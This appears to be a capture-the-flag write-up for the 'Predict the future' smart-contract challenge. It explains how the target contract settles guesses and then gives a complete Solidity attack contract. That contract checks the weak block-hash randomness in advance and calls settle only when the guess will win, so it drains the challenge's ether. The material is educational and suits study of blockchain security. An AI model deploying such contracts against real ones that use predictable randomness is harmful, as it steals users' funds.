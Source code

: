 #Predict the future

##Challenge

##Solution

This challenge separates guess placement from the ether settlement process. To 'lockInGuess' the puzzle requires a payment of one ether. The 'lockInGuess' function also assigns 3 state variables: the 'guesser' is the address making the guess, the 'n' value is the guess, and 'settlementBlockNumber' is the transaction's block number plus one.

The settlement process requires the function caller to satisfy three conditions prior to receiving a transfer of 2 ether:
- The 'settle' function call must be from the same address that made the guess
- The block number of the 'settle' transaction must be greater than the 'lockInGuess' transaction block
- The 'settle' function regenerates a new 'answer' to memory which is then checked against the function caller's guess value in contract state storage.

To solve this puzzle, we deploy an attack contract of our own which will include its own 'require' statements to check for these conditions prior to sending the message call. This process is a bit tedious and will require a bit of luck. I got it on the 5th try. Then replicated it and didn't get to make the call again for over 10 minutes.

Here is my Solidity contract solution, with notes:

pragma solidity ^0.4.24;

// interface referenced in the 'pull' contract
interface PredictTheFutureChallenge {
    function lockInGuess(uint8 n) public payable;
    function settle() public;
}

contract pull {
    address owner;

    // instantiate
    PredictTheFutureChallenge public predictFuture;

    // establish ownership of contract at deployment transaction
    constructor() public payable {
        owner = msg.sender;
    }

    // step 1: find contract address of vulnerable contract and input here
    function PredictTheFutureChallengePull(address _predictFuture) public {
        predictFuture = PredictTheFutureChallenge(_predictFuture);
    }

    // step 2: send 1 ether with this transaction along with guess of zero
    // I picked zero (can be any number between 0 - 9, inclusive)
    function futureGuesser() public payable {
        predictFuture.lockInGuess.value(msg.value)(0);
    }

    // step 3: submit this guy over and over until you get it right
    // revert should return any unspent gas, so it's not free but still cheap...
    function settlement() public {
        uint8 settleGuess = uint8(keccak256(blockhash(block.number - 1), now)) % 10;
        require(settleGuess == 0);
        predictFuture.settle();
    }

    // step 5: withdraw funds from pull contract back to externally owned address
    function withdraw() public {
        require(owner == msg.sender);
        msg.sender.transfer(address(this).balance);
    }

    // step 4: funds are automatically sent to
    // fallback function from vulnerable contract
    function() public payable {
    }

}
